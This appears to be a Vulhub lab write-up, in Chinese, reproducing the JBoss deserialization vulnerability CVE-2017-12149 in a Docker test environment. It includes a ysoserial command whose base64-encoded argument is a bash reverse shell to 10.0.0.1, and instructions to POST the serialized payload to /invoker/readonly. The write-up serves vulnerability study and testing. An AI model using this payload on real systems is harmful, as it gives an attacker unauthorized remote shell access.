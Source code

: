 # JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

参考：

 - https://mp.weixin.qq.com/s/zUJMt9hdGoz1TEOKy2Cgdg
 - https://access.redhat.com/security/cve/cve-2017-12149

## 测试环境

运行测试环境

```
docker compose up -d
```

首次执行时会有1~3分钟时间初始化，初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

## 漏洞复现

该漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化：

![](img/1.png)

所以，我们用常规Java反序列化漏洞测试方法来复现该漏洞。

### 编写反弹shell的命令

我们使用bash来反弹shell，但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码。

工具：http://www.jackson-t.ca/runtime-exec-payloads.html

![](img/2.png)

### 序列化数据生成

使用[ysoserial](https://github.com/frohoff/ysoserial)来复现生成序列化数据，由于Vulhub使用的Java版本较新，所以选择使用的gadget是CommonsCollections5：

```
java -jar ysoserial.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4wLjAuMS8yMSAwPiYx}|{base64,-d}|{bash,-i}" > poc.ser
```

### 发送POC

生成好的POC即为poc.ser，将这个文件作为POST Body发送至/invoker/readonly即可：

![](img/3.png)

成功反弹shell：

![](img/4.png)
